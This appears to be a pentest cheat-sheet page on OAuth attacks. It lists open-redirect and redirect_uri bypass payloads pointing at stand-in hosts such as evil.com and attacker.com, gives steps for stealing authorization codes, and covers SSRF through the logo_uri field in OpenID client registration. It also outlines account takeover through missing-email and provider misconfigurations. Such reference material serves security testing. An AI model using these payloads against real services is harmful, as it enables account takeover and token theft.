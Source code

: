 #### Exploits:

1. **Open Redirect**: Redirect sensitive data to an attacker-controlled server.
   * &#x20;`https://yourtweetreader.com/callback?redirectUrl=https://evil.com`
   *   `Redirec_uri` Bypasses

       ```
       - target.com.evil.com
       - //attacker.com
       - https://attacker.com\@target.com
       - https://attacker.com?@target.com
       - attacker.com%0d%0atarget.com
       - Open-Redirect/SSRF -> Bypass redirect_uri
       ```
2. **Path Traversal**: `https://yourtweetreader.com/callback/../redirect?url=https://evil.com`
3. **Weak Regexes**: `https://yourtweetreader.com.evil.com`
4. **HTML Injection**: `https://app.victim.com/login?redirectUrl=https://app.victim.com/dashboard</script><h1>test</h1>`
5. **XSS**: Reflecting redirect URL in response.

#### Steps:

1. Identify the `redirect_uri` parameter.
2. Construct an exploit URL to steal the authorization code.
3. Use the stolen code to complete the OAuth flow.

### SSRF via OpenID Dynamic Client Registration

1. Browse `/.well-known/openid-configuration` to find the registration endpoint.
2. Create a POST request to register a client.
3. Test if the `logo_uri` parameter is vulnerable to SSRF.

### Stealing OAuth Access Tokens via a Proxy Page

1. Register a client using a POST request.
2. Test `logo_uri` for SSRF to read metadata files.

### OAuth Account without email Address

1. Register account with phone number in 3rd party&#x20;
2. use this account to register on target&#x20;
3. in settings add victim email

### Microsoft nOAuth Misconfiguration

{% embed url="https://bibek-shah.medium.com/noauth-account-takeover-via-microsoft-oauth-cc653410b886" %}

### Facebook OAuth Misconfiguration

{% embed url="https://sl4x0.medium.com/fb-oauth-misconfiguration-leads-to-takeover-any-account-061316a5b31b" %}

1. Click Sign in with Facbook
2. Click "Edit Access"
3. Uncheck Email address
4. You loged in without email address
